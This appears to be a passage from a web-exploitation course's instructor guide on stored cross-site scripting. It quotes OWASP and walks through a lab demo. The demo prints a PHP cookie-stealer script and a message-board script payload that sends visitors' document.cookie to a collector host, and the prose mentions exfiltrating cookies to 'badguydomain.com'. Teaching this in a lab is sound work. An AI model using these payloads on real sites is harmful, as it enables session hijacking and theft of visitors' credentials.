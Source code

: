 According to Owasp.org, "stored attacks are those where the injected script is permanently stored
on the target servers, such as in a database, in a message forum, visitor log, comment field, etc. The
victim then retrieves the malicious script from the server when it requests the stored information.
Stored XSS is also sometimes referred to as Persistent or Type-I XSS."

Stored XSS can be more dangerous because it does not require a user to click on a malicious link,
but instead to simply visit the trusted website. Stored XSS can be used to keylog, gather session
information, or deploy malicious payloads to visiting users.

An example of a stored XSS might be one that creates an iframe or image and adds it in the
background of the page. The iframe could load a URL such as "http://badguydomain.com/?" +
document.cookie and exfiltrate all of the visitor’s cookie information.

**DEMO: Stored XSS**

1. Utilize the message board hosted on the Demo-Web_Exploit_upload: `http://<float ip>/chat/messageb.php`
2. SSH into the demo-web-exploit-sql and cd into /var/www/html. This demo has a PHP script setup
    to grab cookies as they are redirected (Cookie_Stealer1.php) and writes into 'cookiefile.txt'. You
    may walk the students through the php if wanted.

```
<?php
$cookie = $_GET["username"];
$steal = fopen("/var/www/html/cookiefile.txt", "a+");
fwrite($steal, $cookie ."\n");
fclose($steal);
?>
```
1. On the message board enter a name and then input the following javascript in the message field
    and submit.

```
 <script>document.location="http://10.50.20.97/Cookie_Stealer1.php?username=" +document.cookie;</script>
```
2. Show the students in the URL how we are redirected to our Cookie_Stealer page.
3. cat the cookiefile.txt file our demo-web-exploit-sql to show that we where able to grab cookie information.
4. To remove the stored XSS from sytem:

```
mysql
use messages;
select * from comments; # --- find the ID your script is in
delete from comments where id = <ID>
```
**Useful Javascript Components**

The typical "proof of concept" XSS attack is launching a simple alert:
<script>alert('XSS!');</script> This is because it’s simple, short, and provides instant feedback of
success. However, simply triggering an alert is not very useful from an attacker’s perspective.

_There are various objects that are accessible and controllable by javascript that make XSS valuable to an
attacker:_
